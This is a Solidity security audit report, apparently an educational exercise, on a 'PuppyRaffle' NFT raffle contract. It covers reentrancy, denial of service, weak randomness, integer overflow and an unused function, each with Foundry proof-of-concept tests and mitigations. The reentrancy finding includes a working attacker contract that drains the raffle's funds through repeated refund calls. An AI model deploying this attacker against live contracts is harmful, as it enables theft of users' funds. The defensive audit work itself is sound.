

<!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh;
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>

<div class="full-page">
    
    <div>
    <h1>Protocol Audit Report</h1>
    <h3>Prepared by: krisconnect</h3>
    </div>
</div>

</body>
</html>

# Table of Contents
- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
- [High](#high)
- [Medium](#medium)
- [Low](#low)
- [Informational](#informational)
- [Gas](#gas)

# Protocol Summary

This project is to enter a raffle to win a cute dog NFT. The protocol should do the following:

Call the enterRaffle function with the following parameters:
address[] participants: A list of addresses that enter. You can use this to enter yourself multiple times, or yourself and a group of your friends.
Duplicate addresses are not allowed
Users are allowed to get a refund of their ticket & value if they call the refund function
Every X seconds, the raffle will be able to draw a winner and be minted a random puppy
The owner of the protocol will set a feeAddress to take a cut of the value, and the rest of the funds will be sent to the winner of the puppy.

# Disclaimer

The krisconnect team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| *Likelihood* | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details 
## Scope 
- Commit Hash: e30d199697bbc822b646d76533b66b7d529b8ef5
- ./src/ \
└── PuppyRaffle.sol
## Roles
# Executive Summary
## Issues found
# Findings
### [S-H] Reentrency attack in the "refund" function

**Description:** \
The implemented "refund" function that is supposed to allow players to get a refund does not follow the [CEI](https://fravoll.github.io/solidity-patterns/checks_effects_interactions.html) (Checks, Effects, Interactions) guidelines and therefore it is vulnerable to reentrency.

**Impact:** \
A malicious actor can drain the funds in the contract stealing the stored currency of all the players.

**Proof of Concept:** \
Include the following test and attacker contract into the "puppyRaffleTest.t.sol": \

<details>

```javascript
function testReentrance() public playersEntered {
        ReentrancyAttacker attacker = new ReentrancyAttacker(address(puppyRaffle));
        vm.deal(address(attacker), 1e18);
        uint256 startingAttackerBalance = address(attacker).balance;
        uint256 startingContractBalance = address(puppyRaffle).balance;

        console.log("The starting attacker balance is {}", startingAttackerBalance);
        console.log("The starting contract balance is {}", startingContractBalance);

        attacker.attack();

        uint256 endingAttackerBalance = address(attacker).balance;
        uint256 endingContractBalance = address(puppyRaffle).balance;
        assertEq(endingAttackerBalance, startingAttackerBalance + startingContractBalance);
        assertEq(endingContractBalance, 0);
        console.log("The ending attacker balance is {}", endingAttackerBalance);
        console.log("The ending contract balance is {}", endingContractBalance);
    }

    contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(address _puppyRaffle) {
        puppyRaffle = PuppyRaffle(_puppyRaffle);
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    fallback() external payable {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }
}

```
</details>

**Recommended Mitigation:** 
1. Follow the CEI recommendations and make sure the Effect happens before the Interaction. One way of doing this would be to move line 103 above line 101 in the code.
2. Use the [Reentrency Guard](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard)

### [S-M] Denial of Service (DoS) vulnerability in iteration logic implementation

**Description:** \
The ```Enter Raffle``` function is implemented with double "for" loops but without any limitation as to how many users can enter the raffle. This combined with entry fee increasing with each consecutive player can lead to a case where after the nth player the gas fee will be extremely high.\
**Impact:** \
A malicious actor can create hundreds or thousands of users and enter with each of them in an automated manner, increasing the gas price each time, denying the service for others.\
**Proof of Concept:**\
Add the code snippet below to the "puppyRaffleTest.t.sol" file and run the tests.

<details>

```javascript
function testDoS() public {
    
        vm.txGasPrice(1);
        uint256 playersNum = 100;
        address[] memory players = new address[](playersNum);
        for(uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }

        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
        uint256 gasEnd = gasleft();

        uint256 gasUsedFirst = gasStart - gasEnd * tx.gasprice;
        console.log("Gas used by the first 100 players {}", gasUsedFirst);

        address[] memory playersTwo = new address[](playersNum);
        for(uint256 i = 0; i < playersNum; i++) {
            playersTwo[i] = address(i+playersNum);
        }

        uint256 gasStartTwo = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playersTwo.length}(playersTwo);
        uint256 gasEndTwo = gasleft();

        uint256 gasUsedSecond = gasStartTwo - gasEndTwo * tx.gasprice;
        console.log("Gas used by the second 100 players {}", gasUsedSecond);
    }
```
</details>

**Recommended Mitigation:** \
1. Consider removing the check for duplicates. Regardless of implementation, the check wouldn't be able to verify the identity of the wallet owner and because creating a wallet is a zero cost process, anyone can create any number of wallets.
2. If that is not an option, a mapping could be created that maps the addresses of the players to a uint256 value to something like an "ID", then the check is done iterating through the array of these integers, requireing the mapped IDs to be unique. This way the protocol would only select from new players when the selectWinner() function is called (also incrementing the ID after each call).
3. Alternatively use [OpenZeppelin's Enumerable Set](https://docs.openzeppelin.com/contracts/4.x/api/utils#EnumerableSet)

### [S-M] Weak randomness

**Description:** \
The protol uses a random number generation method that has been proven to be exploitable in the functions ```selectWinner```.

**Impact:** \
A malicious actor can influence their chances of getting more valueable NFTs based on rarity.

**Proof of Concept:** \
According to the [slither documentation](https://github.com/crytic/slither/wiki/Detector-Documentation#weak-prng), find the example below:

<details>

```javascript
contract Game {

    uint reward_determining_number;

    function guessing() external{
      reward_determining_number = uint256(block.blockhash(10000)) % 10;
    }
}
```

</details>

**Recommended Mitigation:** 
Use [chainlink VRF](https://docs.chain.link/vrf) or [Commit Reveal Scheme](https://www.gate.io/learn/articles/what-is-a-commit-reveal-scheme-in-blockchain/862).

### [S-M] Integer overflow and unsafe wrapping in ```TotalFees```

**Description:** \
Within the winner selector function on line 134, the totalFees variable can hold integer values without issues if the number of players is relatively low. Once the number of players increases, the stored value increments above what the buffer is capable of holding and switches back to zero. Additionally, the uint64 cannot hold larger values.

**Impact:** \
Getting the fees wrong can severly impact the protocol's internal account mechanisms and can provide incorrect data for calculations.

**Proof of Concept:** \
Add the code snippet below to the "puppyRaffleTest.t.sol" file and run the tests.

<details>

```javascript
    function testIntegerOverflow() public playersEntered {
        
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        puppyRaffle.selectWinner();
        uint256 startingTotalFees = puppyRaffle.totalFees();
        console.log("Starting total fee is {}", startingTotalFees);

        
        uint256 playersNum = 89;
        address[] memory players = new address[](playersNum);
        for (uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }
        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);
        

        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        puppyRaffle.selectWinner();
        
        uint256 endingTotalFees = puppyRaffle.totalFees();
        console.log("Eventhough 89 players have entered the total ending fee is {}", endingTotalFees);
        assert(endingTotalFees < startingTotalFees);

        // We are also unable to withdraw any fees because of the require check
        vm.prank(puppyRaffle.feeAddress());
        vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();
    }
```

The unsafe wrapping can be confirmed using chisel:
1. Find out the maximum value a uint256 can hold.
2. Find out what is the value of 20 ether.
3. Cast the value of 20 ether into a uint64.
4. The value shows around 1 ether instead of the expected 20 ether.
The wrapping issue occurs at 20 ether:




</details>

**Recommended Mitigation:** \
Use newer version of solidity. Version > 0.8.0.

# Informational

# Gas

### [S-L] Function is not used anywhere in the contract

**Description:** The function ```_isActivePlayer()``` is declared as a function but it is not used anywhere else in the code base.

**Impact:** The unused function still takes computational power and hence increases the gas cost of the protocol

**Proof of Concept:** N/a.

**Recommended Mitigation:** Delete the function or implement it.